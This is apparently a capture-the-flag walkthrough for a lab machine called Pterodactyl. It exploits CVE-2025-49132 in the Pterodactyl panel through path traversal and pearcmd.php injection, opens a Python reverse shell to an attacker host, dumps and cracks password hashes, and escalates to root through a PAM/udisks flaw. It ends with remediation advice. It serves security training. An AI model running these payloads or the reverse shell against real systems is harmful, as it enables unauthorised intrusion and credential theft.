


Summary
Machine Overview
Pterodactyl is a medium Linux machine that involves web enumeration, exploiting a vulnerable Pterodactyl panel, database credential extraction, and privilege escalation via a PAM vulnerability to gain root access.
Pentesting Process
Service Enumeration
The assessment begins with a comprehensive service enumeration using Nmap in order to identify exposed services and their versions.
nmap -sC -sV 10.129.12.87
Nmap scan report for 10.129.12.87
Host is up (0.066s latency).
Not shown: 996 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6 (protocol 2.0)
80/tcp open http nginx 1.21.5
|_http-server-header: nginx/1.21.5
|_http-title: Did not follow redirect to http://pterodactyl.htb/
443/tcp closed https
8080/tcp closed http-proxy
The web server redirects traffic to the virtual host pterodactyl.htb, which was added to the local
/etc/hosts file to enable proper interaction.
echo "10.129.12.87 pterodactyl.htb" >> /etc/hosts
Directory Enumeration
We enumerate the website subpages to discover hidden files.
dirsearch -u http://pterodactyl.htb/
We identified the following interesting endpoints:
200 - 920B - /changelog.txt
200 - 2KB - /index.php
200 - 72KB - /phpinfo.php
The phpinfo page reveals useful PHP configuration details that will support further exploitation.
VHost Enumeration
We enumerate virtual hosts (vhosts) to identify additional exposed services.
ffuf -w /snap/seclists/current/Discovery/DNS/combined_subdomains.txt -u http://pterodactyl.htb -H "Host: FUZZ.pterodactyl.htb" -fs 145
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.1.0
________________________________________________
:: Method : GET
:: URL : http://pterodactyl.htb
:: Wordlist : FUZZ: /snap/seclists/current/Discovery/DNS/combined_subdomains.txt
:: Header : Host: FUZZ.pterodactyl.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403
:: Filter : Response size: 145
________________________________________________
panel [Status: 200, Size: 1897, Words: 490, Lines: 36]
We identified the virtual host panel.pterodactyl.htb, which hosts a Pterodactyl panel.

Vulnerability Analysis
The server is running Pterodactyl 1.11.10, which is vulnerable to an unauthenticated remote code execution vulnerability (CVE-2025-49132).
This vulnerability can also be leveraged to execute and read arbitrary PHP files on the server.
Reading Configuration Files
We exploit the vulnerability to retrieve database configuration file:
/var/www/pterodactyl/config/database.php
curl "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../pterodactyl/config&namespace=database" | jq
Extracted database connection details:
{
"../../../pterodactyl/config": {
"database": {
"default": "mysql",
"connections": {
"mysql": {
"driver": "mysql",
"url": "",
"host": "127.0.0.1",
"port": "3306",
"database": "panel",
"username": "pterodactyl",
"password": "PteraPanel",
"unix_socket": "",
"charset": "utf8mb4",
"collation": "utf8mb4_unicode_ci",
"prefix": "",
"prefix_indexes": "1",
"strict": "",
"timezone": "+00{{00}}",
"sslmode": "prefer",
"options": {
"1014": "1"
}
}
},
"migrations": "migrations",
"redis": {
"client": "predis",
"options": {
"cluster": "redis",
"prefix": "pterodactyl_database_"
},
"default": {
"scheme": "tcp",
"path": "/run/redis/redis.sock",
"host": "127.0.0.1",
"username": "",
"password": "",
"port": "6379",
"database": "0",
"context": []
},
"sessions": {
"scheme": "tcp",
"path": "/run/redis/redis.sock",
"host": "127.0.0.1",
"username": "",
"password": "",
"port": "6379",
"database": "1",
"context": []
}
}
}
}
}
PHP PEAR
Using the previously discovered phpinfo.php page, we identified that PEAR is used on
the server.

Using the CVE-2025-49132 vulnerability, we verify that the pearcmd.php file is
accessible on the server.
curl "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd"
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
...
</body>
</html>
The pearcmd.php script allows command execution. A public PoC is available on GitHub [1], but it
requires slight adjustments to work in our case.
To test the vulnerability, we use pearcmd.php to create a PHP script
(/tmp/payload.php) that executes the id command on the target system.
curl "http://panel.pterodactyl.htb/locales/locale.json?+config-create+/&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system(base64_decode('aWQ='))?>+/tmp/payload.php"
We execute the previously created PHP file using the same vulnerability:
curl "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../../../../tmp&namespace=payload"
The output confirms successful execution of the id command:
#PEAR_Config 0.9
a:12:{s:7:"php_dir";s:108:"/&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd&/uid=474(wwwrun) gid=477(www) groups=477(www)
Reverse Shell
Python 3.6.15 is installed on the machine, so we use the following payload to obtain a reverse shell.
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<ATTACKER-PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
After writing and triggering the payload, we obtain a reverse shell as the user wwwrun
Database Enumeration
We enumerate the database to extract stored user credentials.
mysql -u pterodactyl -pPteraPanel -h 127.0.0.1 panel
Retrieve user password hashes
select username, password from users;
select username, password from users;
+--------------+--------------------------------------------------------------+
| username | password |
+--------------+--------------------------------------------------------------+
| headmonitor | $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2 |
| phileasfogg3 | $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi |
+--------------+--------------------------------------------------------------+
2 rows in set (0.001 sec)
Password cracking
We used Hashcat to crack the password hashes and recovered the password for the user
phileasfogg3 (phileasfogg3 : !QAZ2wsx).
Privilege Escalation
We enumerate installed packages to identify privilege escalation vectors.
rpm -q pam
Installed version:
pam-1.3.0-150000.6.66.1.x86_64
This version is vulnerable to a privilege escalation flaw (CVE-2025-6018 & CVE-2025-6019). A
working exploit is publicly available on GitHub.[2].
We execute the public exploit targeting the vulnerable PAM version.
./exploit.sh
[+] Session is Active. Polkit bypass enabled.
[*] Starting Background Trigger (Wait 2s)...
[*] Starting Foreground Catcher...
[*] HOLD TIGHT. ROOT SHELL INCOMING.
[*] Sniper started. Waiting for ANY loop mount...
[*] (BG) Setting up loop device...
[*] (BG) Triggering Resize on /org/freedesktop/UDisks2/block_devices/loop0...
[!!!] HIT! Mounted at: /tmp/blockdev.UBOJK3
As a result, we obtain a root shell.
id
uid=0(root) gid=0(root) groups=0(root),100(users)
Mitigation
Remediation
To prevent exploitation of the identified vulnerabilities:
- Upgrade Pterodactyl Panel to version 1.11.11 or later
- Disable
user_readenvin PAM configurations (pam_env), especially in/etc/pam.d/sshd, auditing and limiting polkit actions granted to'allow_active'users, and monitoring systems for unexpected loop device mounts under /tmp. [3]
References